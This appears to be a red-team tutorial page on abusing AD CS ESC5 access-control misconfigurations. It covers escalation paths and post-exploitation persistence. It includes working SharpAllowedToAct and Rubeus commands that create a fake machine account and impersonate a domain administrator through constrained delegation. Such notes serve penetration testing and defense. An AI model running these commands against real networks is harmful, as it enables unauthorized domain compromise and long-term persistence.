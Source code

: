 ### Potential Exploitation Scenarios

Overly permissive ACLs on AD CS objects, like the CA server computer object or AD CS containers, can lead to various escalation paths, including:

- **Compromising the CA Server’s Computer Object**:
  - Using techniques like **Resource-Based Constrained Delegation (RBCD)** or **Shadow Credentials** to obtain **admin access** on the CA server.
- **Misconfigured ACLs on AD Objects**:
  - Misconfigured ACEs on descendants like the **Certificate Templates** container, **Certification Authorities** container, or the **NTAuthCertificates** object, potentially leading to **Domain Persistence**.
- **Configuring RPC/DCOM Server on the CA Server**:
  - Using the CA server’s **RPC/DCOM** server to introduce misconfigurations in AD CS for abuse at a later time.

> Compromising the CA server provides the ability to control PKI and maintain long-term access to the domain.

---

### Example: Abusing RBCD to Gain Admin Access on a CA Server

Below is an example command to abuse **Resource-Based Constrained Delegation (RBCD)** using **SharpAllowedToAct** and **Rubeus**:

**Step 1: Create a Fake Machine Account**:
```powershell
SharpAllowedToAct.exe --ComputerAccountName FAKECOMPUTER --ComputerPassword 'Passw0rd!'
--TargetComputer cb-ca --Domain domain.corp -a ca.corp
```

**Step 2: Use RBCD with Rubeus to Impersonate Admin**:
```powershell
Rubeus.exe s4u /user:FAKECOMPUTER$ /rc4:FC525C9683E8FE067095BA2DDC971889
/msdsspn:cifs/ca.corp /impersonateuser:administrator /domain:domain.corp /dc:ca.corp /ptt
```

### Post-Exploitation Possibilities with Admin Access

Once admin access to the CA server is obtained, additional actions include:

- **Misconfiguring Certificate Templates**:
  - Set up template ACL attacks like **ESC4** to maintain persistence (DPERSIST3).
- **Forging Certificates for Golden Cert Attack**:
  - Steal and use the **RootCA** to perform a **Golden Certificate Attack** (DPERSIST1).

By leveraging ESC5 vulnerabilities, attackers can compromise and control PKI infrastructure, granting them the ability to manage certificates, set up persistence mechanisms, and potentially compromise the entire domain.



## Template Reconfiguration (DPERSIST3)
